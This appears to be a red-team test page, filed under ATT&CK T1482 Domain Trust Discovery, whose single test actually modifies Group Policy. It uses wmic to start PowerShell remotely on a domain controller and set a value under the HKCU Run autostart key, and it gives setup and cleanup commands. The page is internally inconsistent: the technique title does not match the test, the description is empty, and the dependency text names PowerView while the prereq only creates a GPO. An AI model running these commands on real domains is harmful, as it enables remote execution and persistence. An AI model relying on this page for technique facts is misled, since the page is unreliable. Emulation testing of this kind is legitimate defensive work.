 # T1482 - Domain Trust Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1482)
<blockquote></blockquote>

## Atomic Tests

- [Atomic Test #1 - Poewrshell - Group Policy Modification]


<br/>

## Atomic Test #1 - Group Policy Modification
Use powershell to modify group policy.

**Supported Platforms:** Windows


#### Inputs:
| Name     | Description            | Type   | Default Value |
| -------- | ---------------------- | ------ | ------------- |
| DC_IP    | DC Address             | String | 192.168.204.100 |
| kEY      | REG_KEY                | String | 'HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run' |
| VALUE_NAME    | REG_KEY_VALUE_NAME             | String | 'ValueOne' |
| VALUE    | REG_KEY_VALUE             | String | 'String 1' |
#### Attack Commands: Run with `powershell`! 


```powershell
wmic /node:#{DC_IP} process call create "powershell Set-GPRegistryValue -Name TestGPO -key #{KEY} -ValueName #{VALUE_NAME} -Type String -Value #{VALUE}"
```

#### Dependencies:  Run with `powershell`!
##### Description: PowerView PowerShell script must exist on disk
##### Get Prereq Commands:
```powershell
wmic /node:#{DC_IP} process call create "powershell New-GPO -Name TestGPO"
```
#### CleanUp
##### Cleanup Commands:
```powershell
wmic /node:#{DC_IP} process call create "powershell Remove-GPO -Name TestGPO"
```



<br/>
